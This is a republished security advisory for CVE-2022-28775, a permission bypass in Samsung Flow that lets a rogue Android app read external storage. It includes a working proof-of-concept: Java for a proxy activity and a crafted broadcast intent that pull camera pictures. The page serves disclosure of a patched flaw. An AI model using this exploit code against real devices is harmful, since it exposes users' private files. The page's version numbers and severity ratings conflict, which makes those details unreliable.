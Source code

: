 ```yaml
---
layout: page
title: CVE-2022-28775 Details
permalink: /cves/CVE-2022-28775
---
```


#### Original post: [https://labs.f-secure.com/advisories/samsung-flow-any-app-can-read-the-external-storage/](https://labs.f-secure.com/advisories/samsung-flow-any-app-can-read-the-external-storage/)

|    **Product**    | Samsung Flow prior to version 4.8.06.5 |
|    **Severity**   |                  Medium                  |
| **CVE Reference** |             CVE-2022-28775             |
|      **Type**     |      Security Control Bypass      |

## Description

F-Secure looked into exploiting the Samsung Galaxy S21 device for Austin Pwn2Own 2021. Samsung Flow, an application offered on the Galaxy Store, had an issue with how it handled broadcasted intents. A rogue application could use this issue to read contents on the device's external storage without requiring the proper Android permissions.

## The Exploit

As an example, the following exploit code will exfiltrate a picture taken by the device's camera. This example requires two parts. First, the rogue application must contain an exported activity with the following Java code:

```
public class IntentProxyToContentProvider extends Activity {
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Uri uri = Uri.parse(getIntent().getDataString());
        try {
            Bitmap bitmap = BitmapFactory.decodeStream(getContentResolver().openInputStream(uri));
            Log.d("yaytagyay", String.valueOf(bitmap.getByteCount()));
            String yayuriyay = MediaStore.Images.Media.insertImage(getContentResolver(),
                    bitmap,
                    "yaytitleyay",
                    "yaydescriptionyay"); 
            String File_Name = "yayuriyay.txt";
            FileOutputStream fileobj = openFileOutput(File_Name, Context.MODE_PRIVATE);
            String targetUri = yayuriyay + "\n";
            byte[] ByteArray = targetUri.getBytes();
            fileobj.write(ByteArray);
            fileobj.close();
            Log.d("yaytagyay", "Result: " + yayuriyay);
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

Second, the rogue application must send the following Broadcast, replacing "<target picture>" with the name of the picture found on the device, and "<rogue application package>" with the package name of the rogue application:

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.samsung.android.galaxycontinuity", "com.samsung.android.galaxycontinuity.manager.GlobalBroadcastReceiver"));
intent.setAction("com.samsung.android.galaxycontinuity.action.ACTION_FLOW_CONTENT_PENDING_INTENT"); 
Intent intent2 = new Intent();
intent2.setComponent(new ComponentName("<rogue application package>", " <rogue application package>.IntentProxyToContentProvider"));
intent2.setData(Uri.parse("content://com.samsung.android.galaxycontinuity.provider/external_files/DCIM/Camera/<target picture name>"));
intent2.setFlags(195);
Bundle bundle = new Bundle();
bundle.putParcelable("_data", intent2);
bundle.putString("ClassName", "com.samsung.android.galaxycontinuity.activities.ChooserDelegateActivity");
intent.putExtras(bundle); 
sendBroadcast(intent);
```

## Technical Details



## Remedial Action

Samsung has released the Galaxy Store version 4.5.36.4 which addresses this issue. Users should update their Galaxy Store application to the latest version available.

## Credits

This issue was discovered by Ken Gannon.

## Timeline

|    **Date**    | **Summary** |
|   17/10/2021   | Issue disclosed to Samsung Mobile Security |
|   17/10/2021   | Issue assigned to a Samsung Security Analyst |
|   22/11/2021   | Samsung confirms the vulnerability and rates it as a critical risk issue |
|   13/02/2022   | Patch released, Samsung initiates process for bug bounty reward |
|   12/04/2022   | CVE Assigned |
|   04/05/2022   | Advisory Published |